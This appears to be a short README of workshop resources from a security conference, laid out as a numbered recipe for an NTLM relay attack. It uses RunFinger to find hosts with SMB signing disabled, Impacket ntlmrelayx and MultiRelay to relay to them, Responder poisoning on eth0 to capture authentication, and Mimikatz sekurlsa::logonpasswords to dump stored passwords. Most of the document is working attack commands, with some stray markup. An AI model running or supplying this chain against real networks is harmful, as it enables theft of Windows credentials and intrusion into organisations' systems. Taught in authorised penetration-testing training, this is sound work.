 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt**
 ```   
 ```
 python MultiRelay.py -t <target_machine_IP> -u ALL
 ntlmrelayx.py -tf targets.txt --smb2support**
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



